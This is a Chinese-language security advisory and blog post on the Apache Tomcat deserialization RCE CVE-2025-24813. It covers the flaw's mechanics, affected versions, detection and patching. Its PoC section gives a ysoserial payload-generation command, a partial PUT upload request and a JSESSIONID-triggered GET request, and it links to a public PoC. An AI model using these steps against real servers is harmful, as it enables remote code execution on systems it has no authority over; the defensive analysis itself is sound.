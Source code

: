 #  ​​CVE-2025-24813 Apache Tomcat RCE 漏洞深度解析与 PoC   
云梦DC  云梦安全   2025-05-29 01:00  
  
一、漏洞核心原理  
  
CVE-2025-24813 是 Apache Tomcat 中因 路径等效性缺陷 和 反序列化漏洞 结合导致的远程代码执行（RCE）漏洞。其核心机制如下：  
  
![CVE-2025-24813: Critical Apache Tomcat Vulnerability Already Being  Exploited – Patch Now! | XM Cyber](https://mmbiz.qpic.cn/mmbiz_png/ndxZsFvkmpy6D2vRcMEuia8qiaIicTF15wg79wnA117jT9orA9ZVW5ITibM4SZp7RDBWnmJiav8hcXMqp94DBexZe8w/640?wx_fmt=png&from=appmsg "")  
  
路径处理缺陷：Tomcat 在处理部分 PUT 请求时，会将 URL 路径中的 / 替换为 .，例如 /uploads/../sessions/ 被解析为 .uploads..sessions.，从而绕过目录限制。  
  
反序列化触发：攻击者通过上传恶意序列化文件（如 .session 文件）至 Tomcat 的会话存储目录（默认路径为 work/Catalina/localhost/ROOT），并利用 JSESSIONID 触发反序列化，执行任意命令。  
  
二、影响范围与利用条件  
  
受影响版本：  
  
Tomcat 9.x：9.0.0-M1 至 9.0.98  
  
Tomcat 10.x：10.1.0-M1 至 10.1.34  
  
Tomcat 11.x：11.0.0-M1 至 11.0.2  
  
修复版本：9.0.99、10.1.35、11.0.3。  
  
利用条件（需同时满足）：  
  
默认 Servlet 写入启用（readonly=false，默认关闭）。  
  
支持部分 PUT 请求（默认启用）。  
  
使用基于文件的会话持久化（需手动配置）。  
  
类路径存在反序列化利用链库（如 commons-collections 3.2.1）。  
  
三、PoC 利用步骤  
  
环境配置：  
  
修改 conf/web.xml，设置 <param-value>false</param-value> 启用写入。  
  
修改 conf/context.xml，启用文件会话持久化。  
  
将反序列化依赖库（如 commons-collections.jar）放入 WEB-INF/lib。  
  
生成 Payload：  
  
java -jar ysoserial.jar CommonsCollections6 "calc.exe" > payload.ser    
  
使用工具（如 Yakit）生成 Base64 编码的恶意序列化文件。  
  
上传 Payload：  
  
PUT /poc/session HTTP/1.1    
  
Host: target:8080    
  
Content-Range: bytes 0-1000/1200    
  
Content-Length: 1000    
  
[Binary payload data]    
  
若返回 HTTP 409 Conflict，表明文件已写入临时目录。  
  
触发 RCE：  
  
GET / HTTP/1.1    
  
Host: target:8080    
  
Cookie: JSESSIONID=.poc    
  
触发后，Tomcat 会反序列化 .poc.session 文件并执行命令（如弹出计算器）。  
  
四、检测与防御建议  
  
漏洞检测：  
  
监控异常 PUT/GET 请求日志，尤其是包含 Content-Range 和 .session 路径的请求。  
  
使用工具扫描类路径中的反序列化漏洞库（如 commons-collections）。  
  
修复措施：  
  
升级至安全版本：优先修补至 9.0.99、10.1.35 或 11.0.3。  
  
禁用高危配置：  
  
设置 readonly=true 阻止写入。  
  
关闭部分 PUT 请求支持（修改 server.xml）。  
  
移除危险依赖库：清理 commons-collections 等反序列化利用链组件。  
  
应急缓解：  
  
使用 WAF 拦截包含 Content-Range 和 JSESSIONID 的异常请求。  
  
隔离会话存储目录，限制非授权进程访问。  
  
五、攻击案例与影响评估  
  
攻击趋势：漏洞披露后 30 小时内 PoC 公开，攻击源主要来自美国、中国、意大利等地，70% 针对美国服务器。  
  
危害场景：  
  
数据泄露：读取 /etc/passwd 或数据库配置文件。  
  
持久化后门：上传恶意 JSP 文件或修改 server.xml。  
  
检测盲区：Base64 编码的 Payload 可绕过传统 WAF，需依赖行为分析工具。  
  
六、扩展资源  
  
官方公告：Apache Tomcat 安全更新。  
  
复现工具：  
  
Yakit Web Fuzzer（支持 Payload 生成与漏洞触发）。  
  
Burp Suite 自定义插件（拦截并修改 HTTP 请求）。  
  
研究文章：  
  
奇安信攻防社区：CVE-2025-24813 分析。  
  
Wallarm 漏洞利用报告。  
  
总结：CVE-2025-24813 的利用门槛因依赖非默认配置而受限，但一旦条件满足，其危害性极高。企业需结合 补丁管理、配置加固 与 行为监控 构建防御体系，避免成为攻击目标。  
  
poc：https://github.com/absholi7ly/POC-CVE-2025-24813  
  

